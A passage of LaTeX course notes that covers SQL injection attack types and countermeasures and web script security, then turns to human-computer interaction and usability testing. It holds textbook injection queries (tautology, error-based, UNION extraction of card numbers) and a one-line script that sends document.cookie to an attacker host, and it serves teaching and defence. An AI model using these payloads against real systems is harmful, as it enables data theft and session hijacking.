WHERE  username = 'admin' -- 'AND password = 'oldpwd'
\end{lstlisting}



\subsubsection{Attack intents}

Attackers can achieve a variety of goals [8]:
\begin{itemize}
	\item \textbf{Identifying injectable parameters} : The attacker wants to probe a web application to discover which parameters and user-input fields are vulnerable to SQLIA;
	\item \textbf{Performing database finger printing} : The attacker wants to acquire database metadata, for example type and version of DBMS, et cetera, as certain types of databases respond differently to different queries and attacks.
	\item \textbf{Determining database schema} : To correctly extract data from a database, the attacker often needs to know database schema information;
	\item \textbf{Extracting, modifying or adding data} : The goal of these attacks is to retrieve, add or change information in a database;
	\item \textbf{Performing denial-of-service} :  These attacks are performed to shut down the database of a Web application;
	\item \textbf{Avoiding detection} : This category refers to certain attack techniques that are employed to avoid auditing and detection by system protection mechanisms;
	\item \textbf{Bypassing authentication} : For example to assume the rights and privileges associated with another application user;
	\item \textbf{Executing remote commands} : These types of attacks attempt to execute arbitrary commands on the database;
	\item \textbf{Privilege escalation.} : attacks focus on exploiting the database user privileges.
\end{itemize}


\subsubsection{SQL Injection Attack Types}

We discuss a number of of SQL injection attack types identified by Halford et al. [8]:
\begin{itemize}
	\item \textbf{Tautologies};
	\item \textbf{Illegal / Logically incorrect queries};
	\item \textbf{Union queries}.
\end{itemize}


\paragraph{Tautologies}

\subparagraph{Attack intent} Bypassing authentication, identifying injectable parameters, extracting data.
\subparagraph{Description} A tautology is a logical expression that always evaluates as true, for example 1 = 1. Usually this kind of strategy is applied when trying to tamper with conditional statements in the WHERE clause of an SQL query [8].
\subparagraph{Example} An example of this kind of attack was already given earlier. A similar SQL query is shown in \textbf{listing}. In this case we use the input "'' or 1 = 1 - -".

\begin{lstlisting}[language=sql, caption=Tautology in an SQL string., label=listing:sql-injection:tautology]
SELECT * FROM Users WHERE id = '' or 1 = 1 -- AND password = ''
\end{lstlisting}

\paragraph{Illegal / Logically incorrect queries}

\subparagraph{Attack intent} Identifying injectable parameters, performing database finger-printing, extracting data.
\subparagraph{Description} Often, the error pages resulting from database errors are very descriptive. This makes it interesting for attackers to try and create errors on carefully chosen tables, records or columns to find out more about the database structure for example. Type errors, syntax errors, and logical errors are all valuable information to an attacker [8].
\subparagraph{Example} The following example is taken from [8]. The SQL query is shown in \textbf{listing} has resulted in the following error message: "Microsoft OLE DB Provider for SQL Server ($0x80040E07$) Error converting nvarchar value 'CreditCards' to a column of data type int." From this information an attacker learns that the database is an SQL Server Database and the type and name of the CreditCards column.

\begin{lstlisting}[language=sql, caption=Illegal / logically incorrect query., label=listing:sql-injection:illegalquery]
SELECT accounts FROM users
WHERE login = ''
AND   pass  = ''
AND   pin   = convert (int,(select top 1 name from sysobjects where xtype='u'))
\end{lstlisting}


\paragraph{Union queries}

\subparagraph{Attack intent} Bypassing Authentication, extracting data.
\subparagraph{Description} Using UNION queries, attackers can execute additional arbitrary SELECT queries. The result is the union of the results from the first and the second, injected query.
\subparagraph{Example} The following example is taken from [8]. The first part of the union query will return no results, the second one however, will output the card number for account 10032.

\begin{lstlisting}[language=sql, caption=Union query., label=listing:sql-injection:unionquery]
SELECT accounts FROM users
WHERE login= ''
UNION
SELECT cardNo FROM CreditCards
WHERE acctNo = 10032 -- AND pass= '' AND pin=
\end{lstlisting}



\paragraph{Others}

Other SQL injection attack types are based on for example piggy-backed queries, stored procedures, inference, alternate encodings, et cetera.


\subsubsection{Countermeasures}

Halford et al. list a number of countermeasures, defensive coding practises and other techniques that can be applied in each development stage. The three phases of the development cycle are as follows [1]:
\begin{itemize}
	\item \textbf{At coding time} : prevent the introduction of vulnerabilities;
	\item \textbf{At testing time} : detect the presence of vulnerabilities;
	\item \textbf{At run time} : detect attacks that exploit remaining vulnerabilities;
\end{itemize}


\paragraph{At coding time}

Defensive coding is a first logical step towards the prevention of SQL injection. This can be done through the sanitization of input and output, e.g. type checking, escaping, special characters, et cetera. Also, whitelisting of allowed inputs and identification of all input sources is possible, as well as the use of prepared statements (pre-parsed pieces of SQL), and the use of new query development paradigms.

It is clear that retrofitting to legacy code is labour intensive.


\paragraph{At testing time}

Static, dynamic or hybrid checking of code during the development or testing phase. For example, Fortify Source Code Analyzer, FindBugs, and Coverity Static Analysis are tools to achieve this. Based on a combination of "rules" that identify dangerous coding patterns, and an information flow analysis. If user input can reach a dangerous "sink" without being sanitized, an alarm is given. These tools can suffer from false positives and false negatives.


\paragraph{At run time}

Precise taint-tracking and detecting where user input influences SQL parse tree. See also [3].


\subsubsection{SQL injection: conclusions}

SQL injection vulnerabilities are an important class of vulnerabilities in web applications. For greenfield code, it is well understood how to avoid the introduction of such vulnerabilities. Making sure that a legacy code base is free from such vulnerabilities is non-trivial.


\subsection{Web scripts}

Although the SOP prevents scripts from directly connecting to attacker-controlled servers, scripts can include remote entities into the web page, leading to a HTTP request to a script-specified server. \textbf{Figure} shows an example how cookies can be leaked from a page. By including remote scripts, the attacker can even set up two-way communication (JSONP).

\begin{lstlisting}[language=java, caption=How to leak cookies from a web page., label=listing:]
new Image().src = "http://attack/?=" document.cookie;
\end{lstlisting}

To then take over the user's session, the script can initiate arbitrary requests to the originating server, i.e. blindly inject additional requests in the user session. Alternatively, the script can leak the session cookie (as shown before).


\subsubsection{Countermeasures}

The two main countermeasures for script security are:
\begin{enumerate}
	\item The design of the JavaScript API / browser
	\item The Same-Origin-Policy enforcement by the browser
\end{enumerate}

These handle mainly attacks of scripts against the browser or other open sites. Additional countermeasures for script injection are important:
\begin{itemize}
	\item Defensive programming protects against XSS vulnerabilities (cfr SQL injection), e.g. input validation and output encoding.
	\item Content Security Policies are a new W3C standard that lets the web app authors declare where they expect the client to load resources.
	\item "Sandboxing" of JavaScript code to limit the capabilities of an included script by means of a programmer provided policy.
	\item Information flow control for JavaScript to limit how information can flow through scripts from sensitive sources to public sinks.
\end{itemize}


\subsection{Others}

Piessens [1] lists some other vulnerabilities such as weak access control (forceful browsing, bad or no policies), weak cryptographic protection (SSL stripping, PKI failures), browser implementation vulnerabilities (drive-by-downloads, heap spraying), and so forth.




\section{Conclusions}

Piessens [1] concludes that the web is a very influential application platform, but the technological complexity makes it vulnerable in many ways. It is another instance of the attacker-defender race. Many attack techniques are well understood, but new ones can be expected to surface.

Similar attacks (and defenses) can be expected on the mobile platforms.




\part{Software design}\label{part:software-design}
\chapter{Requirement analysis}\label{chapter:requirements-analysis}

\section{Functional requirements: business use case}



\section{Client-system interaction: system use case}



\section{User stories}



\section{Domain model}




\section{Non-functional requirements}

\chapter{Architectural design}\label{chapter:architectural-design}

\section{Attribute-driven development (ADD)}

\subsection{Quality attributes}


\subsection{Tactics}






\chapter{Design patterns}\label{chapter:design-patterns}
\chapter{Human-computer interaction}\label{chapter:hci}

\section{Introduction}

When thinking about software design, one often thinks about its rather technical aspects, such as architectures, design patterns and UML diagrams. However, most software will allow interaction between the user and the computer program at least in some way. The types of interaction can range from pressing some buttons on a mircowave to full-fledged graphical user interfaces operated by touching virtual buttons, to giving commands by moving one's eyes to a projected interface, and so on. User interfaces can be very diverse, and so too are the ways one can interact with them. Human-computer interaction is a field on its own within the larger context of computer science and evelops multiple disciplines, including software engineering, psychology, biology and anthropology.

Jakob Nielsen defines human-computer interaction as "a discipline concerned with the design evaluation and implementation of interactive computing systems for human use and with the study of major phenomena surrounding them" [1]. The nature and quality of this interaction relies on several aspects of the machine (or software), as well as the user that operates it. He argues that although good usability is not a guarantee for optimal user satisfaction, in the general case the influence of usability on user satisfaction is large [7].

In the ISO standard \emph{ISO 9241-11}, usability is defined as "the extent to which a product can be used by specified users to achieve specified goals with effectiveness, efficiency and satisfaction in a specified context of use" [10]. Still, usability should not be considered a one-dimensional property of a user interface. Nielsen identifies several characteristics of usability in applications \cite{Nielsen:1993:UE:529793}:
\begin{itemize}
	\item \textbf{Learnability} : if the system is easy to learn, the user can get started quickly;
	\item \textbf{Efficiency} : if the system is efficient to use, it will be possible to complete more work in less time;
	\item\textbf{Error rate and severity} : if the system should be robust and minimize faults;
	\item \textbf{Memorability} : once the system is learned, acquired skills should not be forgotten easily;
	\item \textbf{Satisfaction} : the system should be pleasant to use.
\end{itemize}

In the next sections we will take a closer look at analysis and design techniques for user interfaces, after which we zoom in on usability evaluation techniques for these interfaces.



\section{User interface design}

\subsection{Storyboarding}

A storyboard is a prototype of the system that is composed out of an array of screen sketches. A storyboard describes a particular task , i.e. "story". Note that a user cannot interact with a storyboard, as opposed to paper prototypes [2].


\subsection{Prototyping}

Creating models from an initial design is usually a good way to get a better idea of what the final product will look like and how it will function in reality. Such models can be constructed from various types of materials. The cheapest method to create prototypes is usually by creating paper versions of the various screens of the user interface; this technique will be presented in greater detail in the next section. Alternatively, digital prototypes can be created, for example after testing an initial paper prototype. Since the arrival of 3D printing technology, companies even design and order complete, pysical prototypes. Of course, much will depend on your budget and the type of application you are developing.

In what follows, we elaborate on paper prototyping, based on Carolyn Snyder's book <em>Paper Prototyping: The Fast and Easy Way to Define and Refine User Interfaces</em>.

\subsubsection{Paper prototyping}

Carolyn Snyder defines paper prototyping as "a variation of usability testing where representative users perform realistic tasks by interacting with a paper version of the interface that is manipulated by a person 'playing computer', who doesn't explain how the interface is intended to work" [3]. It is a technique for designing, testing, and refining user interfaces [2], and is closely related to usability testing [3]. In the last decade it has become a regularly applied technique in major businesses such as IBM, Digital, Honeywell, and Microsoft among others [2].

In [7] a number of benefits are associated with paper prototyping:
\begin{itemize}
	\item Potential usability problems can be detected at a very early stage in the design process before any code has been written.
	\item Paper prototyping promotes communication between designers and users.
	\item Paper prototypes can be created and refined relatively easily, allowing for rapid design iterations.
	\item Only minimal resources and materials are required.
\end{itemize}

To make your own paper prototype, you will need a number of materials to create the physical paper prototype. Typical materials are blank paper for drawing prototype pieces, some kind of fixed background upon which other paper prototype elements are placed (for example a white poster board sized approximately like a A3 sheet of paper will do), markers, pens (black and/or colored) for hand-drawing the prototype, and scissors for cutting out screen shots into pieces, making popups and so on \cite{Snyder:2003}. Snyder lists also other materials, but feel free to come up with additional materials that can be used to facilitate the simulation of a real interface. An important remark though, is that the paper prototype is usually bigger than the actual interface, and does not have to look very artistic or realistic, as long as it conveys the main ideas of the design \cite{Snyder:2003}.

The background may depend on the application type. A first consideration is whether or not you include elements of the underlying operating system, for example when multiple applications can run simultanously in your test. For most applications, the application interface itself will do. For web browsers buttons such as \textit{Back}, \textit{Forward}, \textit{Home}, and maybe \textit{Print} or \textit{Search} will usually suffice [1]. For small-screen devices where size constraints are important, you can make a so-called 'blinder', which is a print or drawing of the hardware device with a cutout where the display would be \cite{Snyder:2003}.

Having a fixed background for your prototype has several advantages \cite{Snyder:2003}:
\begin{itemize}
	\item It gives a sense of context to what the test subject sees;
	\item If certain controls appear on every screen, you only have to draw them once;
	\item When many pieces of paper are involved in the prototype, it helps the user to distinguish between parts that are on the screen and those that aren't;
	\item It enables you to evaluate the screen real estate.
\end{itemize}

Next the rest of user interface should be added to the background. Different interface controls or widgets can be modeled, such as buttons, checkboxes, tabbed dialog boxes, text fields and drop-down lists. Most of these can be simulated using removable tape, covering some option, or allowing reuse of some widget for the next user test \cite{Snyder:2003}. Note that representing the state of each radio button, list, selection, and so on, is often important as it allows the user to remember his/her choices when using the prototype \cite{Snyder:2003}.

According to Snyder pretty much anything can simulated, using a little imagination. It is still hard to simulate complex or subtle interaction \cite{Snyder:2003}. A number of examples from \cite{Snyder:2003} are listed here:
\begin{itemize}
	\item \textbf{Tooltips/mouseovers} : Tell the users that some visual elements have a tooltip associated with them, and that they can ask if they wish to know what it says for a particular item;
	\item \textbf{Beeps} : Simply say "beep" whenever the computer would, for example, when the user clicks outside a modal dialog box;
	\item \textbf{Drag and drop} : Ask users to specify what they're dragging and where they're dropping it. The Computer then describes the visual changes that occur during this process;
	\item \textbf{Right mouse menus} : Ask users to say when they are clicking the right mouse button. If they do, display the menu.
\end{itemize}


Note that some interactions such as drag and drop, and right mouse clicks often not come to mind of the test subject when using a paper prototype. Also, some interactions such as scrolling are not always incoprporated in the paper prototype, but tested in a later stage of the interface design \cite{Snyder:2003}.

Sometimes hardware can a particular role in the application. For example reading and/or writing to an external device such as a CD or an mp3 player \cite{Snyder:2003}. Snyder argues that including a keyboard is usually not necessary, as most of this can be simulated using simple handwriting with a pen or pencil. If special keys are concerned, ask the test subject how he/she got where he/she is at \cite{Snyder:2003}.



\section{Evaluation methods}

The evaluation of an application prototype can be performed using one or more different techniques, and based on a range of varying criteria, such as: usability, usefulness, meaning, efficiency, accuracy and so on [2]. Based on the slides by Erik Duval, we look at four different evaluation techniques:
\begin{itemize}
	\item Questionnaire;
	\item Usability engineering;
	\item Expert evaluation;
	\item Usage tracking.
\end{itemize}

Methods may be formative or summative. Formative means that the evaluation occurs simultaneously with user task execution. Summative occurs after the user has performed all the required tasks [2].



\subsection{Questionnaire}

A questionnaire is defined as "a method for the elicitation, and recording, and collecting of information" [4]. \textbf{Table} \ref{table:questionnaires} lists several advantages and disadvantages of the use of questionnaires, based on [4].

\begin{table}[H]
	\begin{center}
		\begin{tabular}{l p{300px}}
			\hline
			Advantages		&		Evaluates the point of view of the user; \\
										&		Measures gained from a questionnaire are to a large extent, independent of the system, users, or tasks to which the questionnaire was applied; \\
										&		Quick and cost effective; \\
			\hline
			Disadvantages	&		Only the user's reaction as the user perceives the situation; \\
										&		Lack of detail, as questionnaires are usually designed to fit a number of different situations; \\
										&		Subjective data must be enhanced with performance, mental effort, and effectiveness data. \\
			\hline
		\end{tabular}
	\end{center}
	\caption{Advantages and disadvantages of the questionnaires.}
	\label{table:questionnaires}
\end{table}


\subsubsection{System usabiliy scale}

A system usability scale (SUS) test is a questionnaire that consists out of ten specific questions. Each question is answered by checking one out of five checkboxes: checkbox one corresponds to strong disagreement with the statement, the fifth checkbox corresponds to strong agreement with the statement. The ten questions are listed in \textbf{table} \ref{table:sus_questions}.

\begin{table}[H]
	\caption{System usability scale questions.}
	\begin{tabular}{ p{20px} | p{410px} }
		\hline
		\texttt{Q1} 	&	I think that I would like to use this system frequently. \\
		\texttt{Q2}		&	I found the system unnecessarily complex. \\
		\texttt{Q3}		&	I thought the system was easy to use. \\
		\texttt{Q4} 	&	I think that I would need the support of a technical person to be able to use this system. \\
		\texttt{Q5}		&	I found the various functions in this system were well integrated. \\
		\texttt{Q6}		&	I thought there was too much inconsistency in this system. \\
		\texttt{Q7} 	&	I would imagine that most people would learn to use this system very quickly.  \\
		\texttt{Q8}		&	I found the system very cumbersome to use. \\
		\texttt{Q9}		& I felt very confident using the system. \\
		\texttt{Q10}	& I needed to learn a lot of things before I could get going with this system. \\
		\hline
	\end{tabular}
	\label{table:sus_questions}
\end{table}


\subsection{Usability engineering}

In [2], two methods are described to perform usability engineering tests:
\begin{itemize}
	\item Usability labs;
	\item Think aloud testing;
\end{itemize}

In order to perform reliable usability tests, the test users have to be representative for the actual user population [2]. Often the number of users can be limited to a certain amount. As the number of detectable problems is likely to be finite, from a certain point on adding more users to the usability test will not produce new or better results. Nielsen argues that as a rule of tumb, five test users is enough to acquire reliable and valuable test results [2, 7]. The graph in figure \ref{figure:diminishing_returns} illustrates this phenomenon.

\begin{figure}
	\begin{center}
		\includegraphics[width=\columnwidth]{img/}
		\caption{The curve shows the user testing diminishing returns beyond a certain amount of test users.}
		\label{figure:diminishing_returns}
	\end{center}
\end{figure}


The tasks that are being used, have to be representative of the system usage. Tasks also have to correspond to research questions to obtain relevant results.


\subsubsection{Usability lab}

Usability tests can be performed in a usability lab. In this lab the user is observed while performing certain tasks. Data on task completion time, mouse clicks, eye-movement can be collected. Direct observation or cameras can be used to observe the user [3]. To mimic real-life situations, also complete settings can be recreated in which the users would normally use the application.

This method can be rather costly, as labs need to be available and the required equipment may be expensive.


\subsubsection{Think aloud protocol}

A variation on usability lab method that is cheaper to perform, is the think aloud protocol - cf. "discount usability engineering" [2]. To obtain results, the think aloud protocol can be used during a usability test. During a think aloud test, the user describes his/her reasoning for each action he/she undertakes [5]. This method has several advantages and disadvantages, as listed in \textbf{table} \ref{table:usability_engineering}, based on [5] and [9].

\begin{table}[H]
	\begin{center}
		\begin{tabular}{l p{300px}}
			\hline
			Advantages		&		It is cheap to perform; \\
										&		It is robust; \\
										&		It is flexible; \\ % giving required freedom to perform insight tests
										&		It is convincing; \\
										&		It is easy to learn; \\
			\hline
			Disadvantages	&		It creates an unnatural situation, as users usually don't say out loud everything they are about to do or think; \\
										&		The user may tend to filter his/her statements to avoid saying things that he/she may find silly or uninteresting; \\
										&		The facilitator may introduce bias in user behavior if he/she provides too much information when answering or instructing users; \\
			\hline
		\end{tabular}
	\end{center}
	\caption{Advantages and disadvantages of the think aloud protocol.}
	\label{table:usability_engineering}
\end{table}





\subsection{Expert evaluation}

Experts are test users that are spacialists in human-computer interaction or in the application domain itself [2]. Expert analysis is performed by testing the design using guidlines or checklists based on established design principles [2, 10]. In \textbf{table} \ref{table:expert_evaluation} different benefits and drawbacks are listed, based on [2] and [10].

\begin{table}[H]
	\begin{center}
		\begin{tabular}{l p{300px}}
			\hline
			Advantages		&		Quick and relatively cheap feedback that is valid and useful; \\
										&		Promotes compatibility with similar systems; \\
										&		Can be used early in the design process; \\
			\hline
			Disadvantages	&		May be overly critical, as the focus lies on bad characteristics of the design, and as a result, may also be delicate to use with system developers; \\
										&		Restricted to aspects of the interface that are reasonably easy to demonstrate; \\
			\hline
		\end{tabular}
	\end{center}
	\caption{Advantages and disadvantages of the expert analysis method.}
	\label{table:expert_evaluation}
\end{table}



\subsection{Usage tracking}

Systems that have many users can do quick online tests of changes in their software on a subset of its users. By testing on subset of a very large population, much information can be gathered in a small time span.

The main advantages and disadvantages of usage tracking are summarized in table \ref{table:usage_tracking}.

\begin{table}[H]
	\begin{center}
		\begin{tabular}{l p{300px}}
			\hline
			Advantages		&		The context is optimal, as it is the actual environment the user performs the test in; \\
										&		Great quantities of data can be gathered in a short time span; \\
										&		The cost is relatively low; \\
										&		The results are quite accurate; \\
			\hline
			Disadvantages	&		Can only be applied in particular systems; \\
										&		May not provide subjective user feedback; \\
										&		Usually limited to the evaluation of certain interaction types; \\
			\hline
		\end{tabular}
	\end{center}
	\caption{Advantages and disadvantages of usage tracking.}
	\label{table:usage_tracking}
\end{table}










%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% APPENDICES
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\appendix
\chapter{Case study : Distributed desktop application}\label{appendix:case-study:a}



\chapter{Case study : Web application}\label{appendix:case-study:b}



\chapter{Case study : Distributed mobile application}\label{appendix:case-study:c}



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% BIBLIOGRAPHY AND OTHER LISTS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\addtocontents{toc}{\protect\vspace*{\baselineskip}}

%% The Bibliography
% INFO : http://en.wikibooks.org/wiki/LaTeX/Bibliography_Management
\addcontentsline{toc}{chapter}{Bibliography}
\bibliographystyle{abbrv}
\bibliography{bib/books}
\bibliography{bib/articles}
\bibliography{bib/web}


%% The List of Figures
\clearpage
\addcontentsline{toc}{chapter}{List of Figures}
\listoffigures
%% The List of Tables
\clearpage
\addcontentsline{toc}{chapter}{List of Tables}
\listoftables

%% Index
\addcontentsline{toc}{chapter}{Index}
\printindex

\end{document}